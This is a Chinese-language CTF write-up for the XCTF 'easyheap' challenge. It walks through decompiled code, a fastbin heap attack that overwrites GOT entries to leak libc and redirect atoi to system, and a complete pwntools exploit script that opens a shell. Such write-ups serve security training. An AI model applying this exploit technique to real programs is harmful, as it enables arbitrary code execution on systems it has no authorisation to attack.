

# XCTF easyheap

### 0x1 分析

这道题主要是用到fastbin attack

看一下安全性：

```shell
[*] './easyheap'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO				#可以更改GOT
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)		#地址是固定的
```

这是一个很常规的菜单程序，有增、删、编辑。

`main()`

```c
// 0x00400b5d
void __fastcall __noreturn main(__int64 a1, char **a2, char **a3)
{
  int v3; // eax

  setBuf();
  puts("Welcome to message manager!");
  while ( 1 )                                   // idx == 2
  {
    while ( 1 )
    {
      menu();
      v3 = getNum();
      if ( v3 != 2 )
        break;
      delete();
    }
    if ( v3 > 2 )
    {
      if ( v3 == 3 )
      {
        edit();
      }
      else
      {
        if ( v3 == 4 )
          exit(0);
LABEL_13:
        puts("Wrong choice!!!");
      }
    }
    else
    {
      if ( v3 != 1 )
        goto LABEL_13;
      add();
    }
  }
}
```

`add()`:

```c
int add()
{
  void **v1; // rbx
  signed int i; // [rsp+8h] [rbp-18h]
  int nbytes; // [rsp+Ch] [rbp-14h]

  for ( i = 0; ptr[i]; ++i )                    // max == 3
    ;
  if ( i > 2 )
    return puts("Too many items!");
  ptr[i] = malloc(0x10uLL);
  puts("How long is this message?");
  nbytes = getNum();
  if ( nbytes > 0x400 )                         // to be -1
    return puts("Too much size!");
  *((_DWORD *)ptr[i] + 2) = nbytes;             // |addr     |
  v1 = (void **)ptr[i];                         // |size|    |
  *v1 = malloc(nbytes);
  puts("What is the content of the message?");
  read(0, *(void **)ptr[i], (unsigned int)nbytes);
  return puts("Add successfully.");
}
```

这里有个漏洞，看了别人的WP才发现的。就是一旦我们申请内存的大小超过`0x400`，就不会分配内存，这个`bss`位置就只有一个堆头，大小是`0x10 + 0x10`。

`delete()`

```c
int delete()
{
  int idx; // [rsp+Ch] [rbp-4h]

  if ( ++deleteCount > 4 )
    return puts("Delete failed.");
  puts("What is the index of the item to be deleted?");
  idx = getNum();
  if ( idx < 0 || idx > 6 || !ptr[idx] )
    return puts("Delete failed.");
  free(*(void **)ptr[idx]);
  free(ptr[idx]);
  ptr[idx] = 0LL;
  return puts("Delete successfully.");
}
```

删除函数把`bss`段相应存储位置也删掉了。UAF用不了了。

`edit()`:

```c
int edit()
{
  int idx; // [rsp+Ch] [rbp-4h]

  if ( ++editCount > 6 )
    return puts("Delete failed.");
  puts("What is the index of the item to be modified?");
  idx = getNum();
  if ( idx < 0 || idx > 6 || !ptr[idx] )
    return puts("Edit failed.");
  puts("What is the content of the message?");
  read(0, *(void **)ptr[idx], *((unsigned int *)ptr[idx] + 2));
  return puts("Edit successfully.");
}
```

当我们删除了块之后，就无法编辑了。

大致思路是这样的。

加入我们先按常规申请一个堆头和堆头指向的一块内存，而且这两块大小可以被放在同一个Fastbin里。

我们把它释放，再只创建一个堆头，`malloc`不会清空内存里的数据，那么这个新的堆头就会仍然指向旧堆头指向的那个内存，只不过指向的是那个内存的`header`。这样就我们通过`edit()`函数来编辑这块内存了。

那么我这么构造成这样：



我们就可以通过`chunk1`来修改`chunk2`，使其指向一个任意空间，比如GOT表。就可以修改GOT。

那么我们首先通过`chunk1`修改`chunk2`使其指向`free`的GOT，我们就可以修改`free`的GOT为`puts`的`plt`。再次通过`chunk1`，修改`chunk2`指向`puts`的GOT，然后删除`chunk2`，我们就可以泄漏出libc。

然后通过相同的办法，控制`chunk1`指向`atoi`，修改`atoi`的GOT为`system`，输入`/bin/sh\x00`，就可以了。

### 0x2 EXP

```python
#! /usr/bin/python
#-*- coding: utf-8 -*-
from pwn import *

p = process('./easyheap')
libc = ELF('libc.so.6')
elf = ELF('./easyheap')

free_got = 0x602018
puts_got = 0x602020
atoi_got = 0x602050
puts_plt = elf.plt['puts']

context(arch = 'amd64' , os = 'linux', log_level='debug')
context.terminal = ['tmux', 'splitw', '-h']

def debug(p, cmd):
    gdb.attach(p, cmd)
    pause()

def add(size, content, p = p):
    p.sendlineafter("Your choice:", '1')
    p.sendlineafter("How long is this message?", str(size))
    p.sendafter("What is the content of the message", content)

def edit(idx, content, p = p):
    p.sendlineafter("Your choice:", '3')
    p.sendlineafter("What is the index of the item to be modified?", str(idx))
    p.sendafter("What is the content of the message?", content)

def delete(idx, p = p):
    p.sendlineafter("Your choice:", '2')
    p.sendlineafter("What is the index of the item to be deleted?", str(idx))

def single_head(p = p):
    p.sendlineafter("Your choice:", '1')
    p.sendlineafter("How long is this message?", str(2048))

add(0x18, 'aaaa')
delete(0)
single_head()

add(0x18, 'bbbb')
delete(1)
single_head()

add(0x18, 'cccc')

edit(1, 'a' * 0x10 + p64(free_got))
edit(2, p64(puts_plt))
edit(1, 'a' * 0x10 + p64(puts_got))
delete(2)
puts_addr = u64(p.recvuntil('\x7f')[-6:].ljust(8,'\x00'))
libc_base = puts_addr - libc.symbols['puts']
print 'libc: ', hex(libc_base)
pause()

system_addr = libc_base + libc.symbols['system']
edit(0, 'a' * 0x10 + p64(atoi_got))
edit(1, p64(system_addr))
p.sendafter("Your choice:\n", '/bin/sh\x00')
p.interactive()
```

